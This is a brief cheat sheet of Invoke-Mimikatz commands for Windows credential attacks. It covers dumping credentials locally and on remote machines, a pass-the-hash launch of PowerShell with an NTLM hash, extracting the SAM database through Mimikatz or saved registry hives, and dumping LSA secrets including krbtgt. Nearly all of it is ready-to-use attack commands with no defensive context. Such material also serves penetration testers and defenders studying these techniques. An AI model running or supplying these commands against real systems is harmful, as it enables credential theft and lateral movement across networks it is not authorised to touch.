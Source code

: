 # Invoke-MimiKatz

### **Mimikatz dump credentials on local machine**

```
Invoke-Mimikatz -Dumpcreds
```

### **Mimikatz dump credentials on multiple remote machines**

```
Invoke-Mimikatz -Dumpcreds -Computername @(“<system1>”,”<system2>”)
Invoke-Mimikatz -Dumpcreds -ComputerName @("<computername 1>","<computername 2>")
```

### **Mimikatz start powershell pass the hash (run as local admin)**

```
Invoke-Mimikatz -Command '"sekurlsa::pth /user:<username> /domain:<domain> /ntlm:<ntlm hash> /run:powershell.exe"'
```

### **Mimikatz dump from SAM**

```
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "lsadump::sam"'
```

or

```
reg save HKLM\SAM SamBkup.hiv
reg save HKLM\System SystemBkup.hiv
#Start mimikatz as administrator
privilege::debug
token::elevate
lsadump::sam SamBkup.hiv SystemBkup.hiv
```

### **Mimikatz dump lsa (krbtgt to)**

```
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername <computername>
```
